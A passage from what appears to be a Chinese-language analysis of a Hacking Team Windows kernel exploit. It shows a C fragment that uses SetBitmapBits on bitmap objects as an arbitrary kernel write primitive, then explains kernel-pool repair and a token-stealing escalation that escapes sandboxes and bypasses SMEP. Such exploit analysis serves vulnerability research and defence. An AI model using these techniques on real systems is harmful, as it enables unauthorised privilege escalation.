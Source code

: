 ```
25   
26  __MEMSET__(tmp, 0, 4);
27   
28  if (lpTable->locals->is64) {
29  tmp[0] = tmp[2] = addrl;
30  tmp[1] = tmp[3] = addrh;
31  lpTable->fpSetBitmapBits(lpTable->locals->thehandle, sizeof(tmp), &tmp);
32   
33  tmp[0] = value0;
34  tmp[1] = value1;
35  lpTable->fpSetBitmapBits(lpTable->locals->hBitmap, 8, &tmp[0]);
36  } else {
37  tmp[0] = tmp[1] = addrl;
38  lpTable->fpSetBitmapBits(lpTable->locals->thehandle, 8, &tmp);
39   
40  tmp[0] = value0;
41  lpTable->fpSetBitmapBits(lpTable->locals->hBitmap, sizeof(tmp[0]), &tmp[0]);
42  }
43   
44  return tmp[0];
45  }

```

0x03 修复内核堆
=====

由于漏洞是在上溢过程中进行的对前一个对象写入，必然会对内核堆造成破坏，所以必须要修复内核堆的结构，这样才能实现在进程退出，对象被释放时不会造成系统蓝屏崩溃，详细的修复代码可以参考源码中触发利用点之后的操作，篇幅关系就不在这里完全列出了。

0x04 实现权限提升
=====

在实现了内核任意地址写入功能后，权限提升过程就比较简单了，攻击代码通过遍历内核进程表找到explore.exe的进程token，直接将explore的token对象的地址写入到当前进程的token中，并清除进程的Job对象，来实现最终完全绕过各类沙盒的保护功能。

由于权限提升过程中完全使用了DKOM的方式，没有进行内核代码执行，因此也绕过了Windows8以上系统中的SMEP内核保护功能。 我们在分析这个漏洞的过程中，发现目前Hacking Team版本的漏洞利用代码还是存在一些问题的，由于最终的提权代码直接从Explore复制的token对象，会导致该token对象的引用计数出现问题，当系统关机、注销，或者Explore.exe异常结束，最终导致Explore.exe进程退出时，可能会导致引用错误的token对象，引发系统蓝屏崩溃，这是这个利用不够优美的地方。